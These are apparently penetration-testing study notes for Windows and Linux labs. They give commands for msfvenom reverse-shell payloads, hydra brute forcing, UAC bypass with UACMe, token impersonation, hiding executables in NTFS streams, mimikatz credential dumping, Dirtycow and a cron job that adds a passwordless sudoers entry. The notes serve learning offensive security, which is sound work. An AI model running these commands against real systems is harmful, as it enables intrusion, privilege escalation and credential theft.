

### Webdav with metasploit

- `nmap -sV -p 80 --script=http-enum <target>`
- Generate paylaod `msfvenom - p windows/meterpreter/reverse_tcp LHOST=<host_ip> LPORT=<host_port> -f asp > shell.asp`
- `cadaver <target/webdav>` -> put payload into website
- Set up listener -> open `msfconsole`
- `use multi/handler`  -> `set payload windows/meterpreter/reverse_tcp` -> set lhost and lport -> run

Other exploit method
- Use module exploit `iis_webdav_upload_asp` -> set `HttpUsername` and `HttpPassowrd`
- set `PATH`

### SMB with Psexec

SMB (Samba in linux) protocol utilizes two levels of authentication
- User Authentication - Username + password
- Share authentication - Password share

PsExec is lightweight telnet develop by MS. PsExec authentication is performed via SMB (usually using user Administrator)

Common exploit is brute force SMB.

- Use module `smb_login` -> Set `RHOSTS` `SMB domain` (if needed) 
- Set `USER_FILE` () and `PASS_FILE` -> Run to get username and password
- `psexec.py user@ip cmd.exe` to setup remote sessions

Other method:
- Use exploit module `smb/psexec` to setup remote sessions.

### RDP

- Use module `rdp_scanner` Scan for port running RDP
- To obtain user/password, use `hydra`
  - `hydra -L <user_list> -P <password_list> rdp://<target> -s <port>`
  - Reduce brute force speed by `-t <number>` default `16`
- Use `xfreerdp /u:<user> /p:<pass> /v:<target_ip>:<port>`

### WinRM

Remote management, default running on 5985, 5986

2 tools will help exploit `crackmapexec` `evil-winrm`

`crackmap` support MSSql, WinRM, SMB, SSH

- In nmap output, the service maybe appear like `Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)`
- Use `crakmapexec winrm <target> -u administrator -p <pass_list>`
- When have user and password, we can use `crackmapexec winrm <target> -u administrator -p <password> -x <command>`

For remote shell
- Use `evil-winrm.rb -u administrator -p <password> -i <target>`

For MSF
- We can use module `winrm_script_exec` for remote shell
- Set host, password and username, port and payload and run.
  - `set FORCE_VBS true`
  - May not work, you can retry it about couple time.

### Windows kernel exploit

Typical type of exploit for this case
- Privilege escalation. Gainng higher privilege from init exploit

Windows run Windows NT, some tools for exploit windows kernel
- [Windows Exploit suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [Windows kernel exploits](https://github.com/SecWiki/windows-kernel-exploits)

Steps:
- When gain access, use `getprivs` to see privilege of account 
- To escalate it, in meterpreter try `getsystem` to escalate
- Try module `local_exploit_suggester`, this is port-exploit module, so set the exploit meterpreter session to be able to run. -> exploit.
  - Output all possiable module can use to continue exploit.
- In demo, use `m16_014_wmi_recv_notif`

Other tools:
- Collect `systeminfo` -> Copy to text file.
- `windows-exploit-suggester.py --update` update database
- `windows-exploit-suggester.py --database <database> --systeminfo <path_to_info>`

Other tools:
- Use the repo [Windows kernel exploits](https://github.com/SecWiki/windows-kernel-exploits)
- Get the exe of exploit and try to run
  - In meterpreter, go to TMP, `upload <exploit_path>` -> Run it.

### UAC

UAC is security feature is used to prevent unauthorized change from being made.

Tools to use:
- [UACMe](https://github.com/hfiref0x/UACME) ~ Over 60 exploit for UAC depend on Windows version.

**Steps:**
- Check auth infor with `net user`
- In demo, to exploits http:80, we use `rejetto_hfs_exec` module to have meterpreter sessions
  - `pgrep explorer` `migrate <number>` to change to `x64`
- Generate payload `msfvenom -p <payload> LHOST=<dest_ip> Lport=<Dest_port> -f exe`
- Setup listener -> Use `multi/handler` -> Set payload, port and host like above -> Run
- Using meterpreter, Upload backdoor.exe from msfvenom, upload `UACMe/Akagi64.exe`
- Run `Akagi64.exe 23 C:\Temp\backdoor.exe` run backdoor with escalate privilege. `23` is a method to bypass, define by UACMe.
- Recheck listener -> `ps` list process -> `migrate <pid>` Migrate to pid of Privilage user, like system 

### Windows Access token

Windows Access token are core element of the auth process on Windows and service manage it is `LSASS`
  - A tempory key for provide privilege to process.
  - Access token are generate by Winlogon.exe and attach to user account and process. 
  - All process started by user will inherit a copy of that token

Access token will have 2 security level
  - Impersonate level token: Non interactive login.
  - Delegate-level token: Interactive login.

Privilege that able to perform impersonation attack:
- SeAssignPrimaryToken
- SeCreateToken
- SeImpersonatePrivilege

Tool use for exploit:
- Incognito: Built-in meterpreter module.

**Steps:**
- Use `rejetto` to open meterpreter 
  - `set PAYLOAD windows/meterpreter/reverse_tcp`
- `load incognito` -> `list_tokens -u`
  - `impersonate_token "<user>"`
  - `migrate <pid>`

If we don't get any token by `list_tokens`, we might need to perfrom potato attack

### ADS Alternate data stream

ADS is an NTFS file attribute and was designed to provide compatibility with the MacOS HFS

Any file created of NTFS will have 2 streams:
- Data stream: Content of file
- Resource stream: Meta data

Attacker can use ADS to hide malicious code or exe

**How to hide exe:**
- Create a file: `notepad text.txt:secret.txt`
  - Content of secret.txt file is hidden
  - Content of text.txt is visible
  - secret.txt treat like a attribute of text.txt
- Test with `Winpeas` -> Hide it in tmp
  - Copy content of payload to ADS `type payload.exe > windows.txt:winpeas.exe`
  - Start exploit `start windows.txt:winpeas.exe`
  - We can make link `mklink start_process.exe windows.txt:winpeas.exe`

## Windows Dump credential

### Windows password hash
- Windows store hash password with SAM database
- Windows versions up to server 2003 use 2 types of hash
  - LM hash
  - NTLM hash (v1, v2)
- SAM database cannot copy while OS running
- Attacker ususally need to dump SAM while it in-memory (LSSAS use SAM, and it need to cache it in memory)
- SAM database is encrypted with syskey.
- Need Administrator privileage to access LSSAS process

**How to access the password/hash**
- Some service can leave config file after installation (like Unattended Windows Setup)
  - `C:\Windows\Panther\Unattend.xml`
  - `C:\Windows\Panther\Autounattend.xml`
- Exploit:
  - Setup listener and meterpreter, `search -f Unattend.xml` -> download it
  - If options plaintext set to false -> Decode the password with base64
  - `base64 -d password.txt`

### Mimikatz

A Windows post-exploit tool allow extract password and hash
- Exploit by copy it to target and execute it.

Alternitive, we can use `kiwi` plugins on meterpreter

Steps:
- Scan `namp -sV <target>`
- If system use badblue, we can use the exploit module `badblue_passthru`
- Migrate to lsass service
- `load kiwi` Load plugins and access kiwi commands
  - use `creds all` to dump hash or `lsa_dump_sam` to dump SAM
  - `lsa_dump_secret` can provide some clear text password

**To use mimikatz**
- `upload /usr/share/windows_resources/mimikatz/x64/mimikatz.exe`
- Run it -> It will open a mimikatz shell
  - `lsadump::sam` to dump SAM
  - `lsadump::secret` to dum secret
  - `sekurlsa::logonpasswords` maybe have clear text password

# Linux

### Exploit FTP

- We can use nmap script ftp-anon.nse to check anonymous login
- We can use `hydra` to brute force
- We can use `searchsploit ProFTPD` to search exploit

**Steps**:
- `hydra -L <User_list> -P <Pass_list> <target> -t 4 ftp`
  - `-t 4` to reduct speed
- Login with `ftp <target>`
  - `dir` to list file and dir
  - `get <file>` to download file

**Other exploit:**
- Use module exploit `proftpd_133c_backdoor`
  - `set payload payload/cmd/unix/reverse`, also set `lhost` and `rhosts`

### SSH

We can use hydra to exploit ssh
- `hydra -L <User_list> -P <Pass_list> <target> -t 4 ssh`

### SAMBA

A linux implementation of SMB, allow Windows system access linux file system.
- We can brute force Samba
- After have credential, we can use SMBMap to enum shares drives
- After that we can use `smbclient` to connect to share drives

**Steps:**
- `hydra -l admin -p <Pass_list> <target> smb`
- `smbmap -u <user> -p <pass> -d <Workgroup> -H <Host_ip>`
  - Shares drive show in `Disk` folder
- `smbclient -L <ip> -U <user>` List share
  - `smbclient //<ip>/<share_drive> -U admin`
  - Use `?` for help

Other tools
- `enum4linux -a <target>` list shares and check anonymous
  - Have other enum options, but need to provide user and password

## Linux kernel

Kernel in linux is different between distro and version

Tools: [Linux exploit suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)

Scenerio: 
- Have meterpreter session -> `sysinfo` Show some info oe `getuid`
- The user we get usually don't have much of privilege
- Download the `les.sh`, upload to the target, and run it

### Dirtycow

[EDB Dirtycow](https://www.exploit-db.com/exploits/40839)

- Download the code 
- Upload to target
- Complie it and chmod +x
- Run it -> Login with new user

### Exploit misconfig Cronjob
Cron is a time-based service that run applications, scripts and other commands repeatedly on specified schedule
- Crontab file is a configuration file for cronjob
- Cronjob can be run by any user
- If shell script or crontab is misconfig the permission, we can exploit it to run unwanted task or command with escalated privilege

Technique

- Use `crontab -l` to list cronjob
- Example we have a file call `root_exe` with higher privileage of current user
- We can use `grep -rnw /usr -e "/path/to/root_exe"` to find any script contains the path of file
- Check if we can exploit the script
  - Ex: `printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /path/to/script`
  - Recheck with `sudo -l`
  - Login all user with no password

### SUID Binaries

[Wiki ref](https://en.wikipedia.org/wiki/Setuid)

- We have other set of privilege on linux call SUID (Set Owner User ID).
- When applied, this permission allow user with ability to execute file or binary with permission of the file owner. (ex: `sudo` command)
- When exploit, we looking for file that own by privilege user and have execute permission (file must have USID though)
  - Take a look at permission string `-rwsr-xr-x`, it have `s` permission -> it have USID and other user can run this run.
  - Infor of file `file <filePath>` `strings <filePath>`
  - If the file target to run other file, we can change the target file to `/bin/bash`
  - So when the file run, it will run `/bin/bash` with escalated privilege

### Linux Hash

- All information about account is store in `/etc/passwd`
- Hash info is store in `/etc/shadow`
- The hash password has a format, we can know the hash algorithm by looking the number with $ sign that after the username
  - 1 ~ MD5, 2 ~ Blowfish, 5 ~ SHA256, 6 ~ SHA512
- We can use post module `gather/hashdump` -> Set sessions and run
  - It will output the crackable format file
- After `hashdump` module, we can use `auxiliary/analyze/crack_linux`
  - Set hash algorithm to true, ex `sha512 true`
  - Run -> It may or may not able to crack the password, we can change the crack engine.